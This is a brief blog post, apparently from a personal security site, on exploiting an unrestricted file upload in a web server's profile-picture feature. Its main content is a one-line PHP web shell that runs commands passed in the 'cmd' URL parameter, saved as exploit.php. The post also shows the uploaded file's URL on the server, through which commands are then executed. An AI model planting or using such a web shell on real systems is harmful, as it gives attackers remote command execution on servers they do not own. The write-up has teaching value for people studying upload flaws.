 ```yaml
---
layout: post
title: unrestricted file upload
---
```

possible way to take advantage of an unrestricted file upload within a profile picture section in a web server

```
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```

copy image address results in the following url being copied to our clipboard: http://www.nop.cat/admin/ftp/objects/XXXXXXXXXXXX.php

![alt text](https://github.com/nopcat/nopcat.github.io/blob/master/images/Captura%20de%20pantalla%20de%202017-11-27%2023-06-38.png? "url to execute command in webserver")
